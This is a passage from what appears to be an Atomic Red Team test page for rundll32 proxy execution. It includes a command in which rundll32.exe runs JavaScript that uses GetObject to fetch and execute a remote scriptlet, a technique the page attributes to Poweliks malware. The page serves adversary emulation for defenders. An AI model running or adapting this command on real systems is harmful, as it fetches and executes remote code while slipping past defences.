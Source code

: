 - [Atomic Test #7 - Rundll32 setupapi.dll Execution](#atomic-test-7---rundll32-setupapidll-execution)

- [Atomic Test #8 - Execution of HTA and VBS Files using Rundll32 and URL.dll](#atomic-test-8---execution-of-hta-and-vbs-files-using-rundll32-and-urldll)

- [Atomic Test #9 - Launches an executable using Rundll32 and pcwutl.dll](#atomic-test-9---launches-an-executable-using-rundll32-and-pcwutldll)

- [Atomic Test #10 - Execution of non-dll using rundll32.exe](#atomic-test-10---execution-of-non-dll-using-rundll32exe)

- [Atomic Test #11 - Rundll32 with Ordinal Value](#atomic-test-11---rundll32-with-ordinal-value)

- [Atomic Test #12 - Rundll32 with Control_RunDLL](#atomic-test-12---rundll32-with-control_rundll)

- [Atomic Test #13 - Rundll32 with desk.cpl](#atomic-test-13---rundll32-with-deskcpl)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened. 
This has been used by Win32/Poweliks malware and works as described [here](https://www.stormshield.com/news/poweliks-command-line-confusion/)

Note: The GetObject function is no longer supported in Internet Explorer v9 (2011) and later so this technique would only work where very old versions of IE are installed.

**Supported Platforms:** Windows


**auto_generated_guid:** 57ba4ce9-ee7a-4f27-9928-3c70c489b59d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();window.close();
```

#### Cleanup Commands:
```cmd
taskkill /IM notepad.exe /f
```



